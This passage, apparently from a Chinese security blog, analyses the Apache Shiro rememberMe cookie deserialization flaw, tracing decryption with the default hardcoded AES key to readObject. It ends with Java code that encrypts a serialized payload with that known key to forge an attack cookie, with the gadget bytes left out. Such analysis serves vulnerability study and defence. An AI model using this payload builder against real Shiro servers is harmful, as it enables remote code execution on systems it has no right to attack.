 从 cookie 的 rememberMe 参数中拿到 base64 数据并解码

然后会转到 convertBytesToPrincipals 方法, 产生反序列化

![image-20221218211423843](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182114030.png)

先 decrypt

![image-20221218211508492](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182115594.png)

虽然是 AES 加密, 但是默认的 CipherKey 往上翻就能看到

![image-20221218211545247](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182115344.png)

在构造方法里会将 CipherKey 设置成 EncryptionCipherKey 和 DecryptionCipherKey 分别用于加解密 (对于对称加密都一样)

然后 deserialize (这里调试的时候换了一次能够成功解密的 payload)

![image-20221218211720491](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182117541.png)

![image-20221218211956962](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182119149.png)

最后来到 readObject, 进行反序列化 (注意 ClassResolvingObjectInputStream 为 shiro 框架实现的自定义类, 会导致**非 Java 原生的数组反序列化失败**)

构造 rememberMe cookie 的 payload 如下, 其中 serialized 部分为序列化的 payload

```java
package com.example;

import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.crypto.CipherService;
import org.apache.shiro.util.ByteSource;

import java.io.*;

public class ShiroTest {
    public static void main(String[] args) throws Exception{

        byte[] serialized = new byte[]{...};
        CipherService cipherService = new AesCipherService();
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource byteSource = cipherService.encrypt(serialized, key);
        byte[] value = byteSource.getBytes();
        String base64 = Base64.encodeToString(value);
        System.out.println(base64);
    }

    public static byte[] serialize(Object obj) throws Exception{
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bao);
        oos.writeObject(obj);
        return bao.toByteArray();
    }
}
```
